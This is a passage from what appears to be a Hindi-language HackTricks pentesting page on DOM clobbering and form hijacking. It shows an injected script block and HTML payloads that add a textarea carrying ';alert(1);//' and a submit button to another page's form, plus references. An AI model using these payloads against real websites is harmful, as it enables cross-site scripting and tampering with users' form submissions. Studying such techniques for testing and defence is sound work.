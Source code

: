```html
</svg>
<script>
alert(document.getElementById('cdnDomain').innerText)//clobbered
</script>
```
## फॉर्म को अद्यतन करना

कुछ टैग्स के अंदर `form` एट्रिब्यूट निर्दिष्ट करके आप **फॉर्म के अंदर नए एंट्रीज़ जोड़ सकते हैं**। आप इसका उपयोग करके **फॉर्म के अंदर नए मान जोड़ सकते हैं** और इसे **भेजने के लिए नया बटन** भी जोड़ सकते हैं (क्लिकजैकिंग या `.click()` JS कोड का दुरुपयोग करना):

{% code overflow="wrap" %}
```html
<!--Add a new attribute and a new button to send-->
<textarea form=id-other-form name=info>
";alert(1);//
</textarea>
<button form=id-other-form type="submit" formaction="/edit" formmethod="post">
Click to send!
</button>
```
{% endcode %}

* [**इसे देखें**](https://www.w3schools.com/tags/tag\_button.asp)** में और फॉर्म एट्रिब्यूट के बारे में जानकारी प्राप्त करें।**

## संदर्भ

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)
* Heyes, Gareth. JavaScript for hackers: Learn to think like a hacker.

<details><summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary></details>
